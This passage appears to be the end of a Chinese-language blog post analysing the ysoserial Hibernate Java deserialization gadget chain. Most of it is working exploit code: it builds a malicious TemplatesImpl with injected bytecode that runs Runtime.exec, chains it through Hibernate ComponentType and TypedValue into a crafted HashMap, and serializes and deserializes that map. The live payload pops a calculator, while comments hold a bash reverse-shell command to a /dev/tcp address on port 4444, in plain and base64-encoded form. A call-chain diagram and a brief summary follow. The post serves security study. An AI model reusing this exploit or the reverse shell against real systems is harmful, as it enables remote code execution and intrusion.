        ComponentType t = (ComponentType)tSC.newInstance(new Object[0]);

        // Reflections.setFieldValue(t, "componentTuplizer", tup);
        Field componentTuplizerField = t.getClass().getDeclaredField("componentTuplizer");
        componentTuplizerField.setAccessible(true);
        componentTuplizerField.set(t, tup);
        // Reflections.setFieldValue(t, "propertySpan", 1);
        Field propertySpanField = t.getClass().getDeclaredField("propertySpan");
        propertySpanField.setAccessible(true);
        propertySpanField.set(t, 1);

        // Reflections.setFieldValue(t, "propertyTypes", new Type[] { t });
        Field propertyTypesField = t.getClass().getDeclaredField("propertyTypes");
        propertyTypesField.setAccessible(true);
        propertyTypesField.set(t, new Type[] {t});


        TypedValue v1 = new TypedValue(t, null);

        // Reflections.setFieldValue(v1, "value", tplClass);
        Field valueField = v1.getClass().getDeclaredField("value");
        valueField.setAccessible(true);
        valueField.set(v1, tpl);

        // Reflections.setFieldValue(v1, "type", t);
        Field typeField = v1.getClass().getDeclaredField("type");
        typeField.setAccessible(true);
        typeField.set(v1, t);

        TypedValue v2 = new TypedValue(t, null);
        // Reflections.setFieldValue(v2, "value", tplClass);
        Field value2Field = v1.getClass().getDeclaredField("value");
        value2Field.setAccessible(true);
        value2Field.set(v1, tpl);

        // Reflections.setFieldValue(v2, "type", t);
        Field type2Field = v1.getClass().getDeclaredField("type");
        type2Field.setAccessible(true);
        type2Field.set(v1, t);


        // ----------------------------makeMap---------------------------------
        HashMap s = new HashMap();

        // Reflections.setFieldValue(s, "size", 2);
        Field sizeField = s.getClass().getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(s, 2);

        Class nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
//        Reflections.setAccessible(nodeCons);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
//        Reflections.setFieldValue(s, "table", tbl);
        Field tableField = s.getClass().getDeclaredField("table");
        tableField.setAccessible(true);
        tableField.set(s, tbl);
        serialize(s);
        unSerialize();
    }

    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void unSerialize() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static TemplatesImpl genTemplates() throws Exception{
        // bash -c {echo,bash -i >& /dev/tcp/192.168.2.234/4444 0>&1}|{base64,-d}|{bash,-i}
        // bash -c {echo,<base64反弹shell>}|{base64,-d}|{bash,-i}
        // String shellcode = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMjM0LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}";
        String shellcode = "calc";
        String executeCode = "Runtime.getRuntime().exec(\"" + shellcode + "\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        return templates;
    }
}
```

来弹个计算器



### 调用链

```java
HashMap.readObject()
	HashMap.hash()
		TypedValue.hashCode()
			ValueHolder<Integer>.getValue()
				DeferredInitializer<Integer>.initialize()
					ComponentType.getHashCode()
						ComponentType.getPropertyValue()
							PojoComponentTuplizer$AbstractComponentTuplizer.getPropertyValue()
								GetterMethodImpl.get()		//差别就在这儿
									Method(getOutputProperties).invoke(TemplatesImpl)
									// ......
```

## 总结

这个攻击链看起来很长，其实方法之间的调用还是非常清晰的。

学习这个攻击链真的从ysoserial那里学到了不少东西，还是非常值得的。

在ysoserial给的脚本中，还提到了hibernate3的相关Caller调用链，回头再继续分析吧，今天就到这儿了。
